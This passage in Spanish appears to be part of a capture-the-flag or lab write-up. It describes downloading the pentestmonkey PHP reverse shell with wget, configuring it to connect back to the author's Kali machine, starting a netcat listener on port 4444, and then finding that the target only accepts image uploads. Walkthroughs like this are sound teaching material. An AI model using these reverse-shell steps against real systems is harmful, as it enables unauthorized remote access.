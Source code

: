 Realizamos la descarga del codigo:

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

![alt text](images/image-12.png)

Configuro para que cuando se ejecute abra una conexion contra mi maquina kali

![alt text](images/image-13.png)

Para ello dejo a la escucha mi maquina kali mediante el comando

```bash
nc -nlvp 4444
```

En la maquina objetivo solo nos deja subir archivos de tipo imagen
